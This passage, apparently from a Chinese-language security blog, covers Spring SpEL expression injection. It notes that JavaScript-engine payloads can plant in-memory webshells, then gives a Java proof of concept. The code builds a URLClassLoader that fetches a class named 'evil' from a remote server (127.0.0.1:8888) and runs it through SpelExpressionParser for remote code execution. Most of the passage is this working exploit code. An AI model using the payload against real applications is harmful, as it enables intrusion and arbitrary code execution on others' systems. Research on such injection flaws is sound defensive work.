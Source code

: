 ![image.png](assets/1698895942-31d43751b572139dc76f7df8ad263f3c.png)  
原来直接new 就可以了，我们JavaScriptengine玩家真的是太有操作了。  
不过在这里还是得多一嘴的，其实JavaScriptengine已经可以做很多事情了，比如注入内存马之类的。Js代码是很灵活的。所以需要好好利用。

# 三、RCE飞雷神二段

纯度秘典第二页，用远程类加载进行RCE。

## UrlClassloader

这个方法就是通过远程类加载。代码如下

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
